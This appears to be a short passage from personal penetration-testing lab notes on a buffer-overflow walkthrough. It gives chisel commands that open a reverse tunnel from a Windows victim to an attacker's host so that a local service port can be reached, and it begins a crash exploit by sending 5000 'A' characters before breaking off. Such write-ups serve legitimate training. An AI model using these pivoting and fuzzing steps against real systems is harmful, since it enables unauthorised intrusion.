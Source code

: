 Reviewing the exploit db script, it sends directly to the port 8888 the payload:

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324121759.png)
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324122630.png)

As there is not the port available, we can use pivoting to access to it.
[[Pivoting]]
Using chisel, same version for attacker and victime,

Parrot:
`chmod +x chisel`
 `./chisel server --reverse -p 1234`

Windows:
`chisel.exe client 192.168.195.170:1234 R:8888:127.0.0.1:8888`

Seeing the tunnel using `lsof -i:8888`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324132727.png)
### Creating our own exploit:
In python3, by lunching 5000 A, the software crashes
`#!/usr/bin/python3`
